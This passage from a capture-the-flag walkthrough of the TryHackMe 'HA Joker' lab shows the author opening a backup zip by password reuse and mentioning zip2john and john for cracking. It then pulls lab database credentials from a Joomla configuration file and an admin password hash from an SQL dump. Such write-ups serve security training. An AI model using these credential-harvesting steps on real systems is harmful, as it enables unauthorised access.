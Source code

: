 Backup file: `backup.zip`

We found a backup file. I downloaded the zip file and when I tried to extract it, I was asked for a passphrase. Before I try to crack it, I tried `hannah` and it worked (Always test for password reuse!). If it didn't, we had to use `zip2john` and then crack it with `john`.

Zip file passphrase: `hannah`

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/HA_Joker_CTF/files]
└─$ unzip backup.zip
Archive:  backup.zip
[backup.zip] db/joomladb.sql password:
~~~

Now that we have the backup files, we might be able to find the password for admin. I couldn't find the password for the admin but I found the password for the database.

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/HA_Joker_CTF/files]
└─$ cat site/configuration.php | head -n20
<?php
class JConfig {
	public $offline = '0';
	public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'joker';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'joomla';      <--------------
	public $password = '1234';    <--------------
	public $db = 'joomladb';
	public $dbprefix = 'cc1gr_';
	public $live_site = '';
~~~

We can try to look through the database. I used `grep` command and found the users that have access to the database. I also found the password hash for the admin.

~~~
┌──(user㉿Y0B01)-[~/…/thm/HA_Joker_CTF/files/db]
└─$ cat joomladb.sql| grep cc1gr_users
-- Table structure for table `cc1gr_users`
DROP TABLE IF EXISTS `cc1gr_users`;
CREATE TABLE `cc1gr_users` (
-- Dumping data for table `cc1gr_users`
LOCK TABLES `cc1gr_users` WRITE;
/*!40000 ALTER TABLE `cc1gr_users` DISABLE KEYS */;
INSERT INTO `cc1gr_users` VALUES (547,'Super Duper User','admin','admin@example.com','$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG',0,1,'2019-10-08 12:00:15','2019-10-25 15:20:02','0','{\"admin_style\":\"\",\"admin_language\":\"\",\"language\":\"\",\"editor\":\"\",\"helpsite\":\"\",\"timezone\":\"\"}','0000-00-00 00:00:00',0,'','',0);
/*!40000 ALTER TABLE `cc1gr_users` ENABLE KEYS */;
~~~
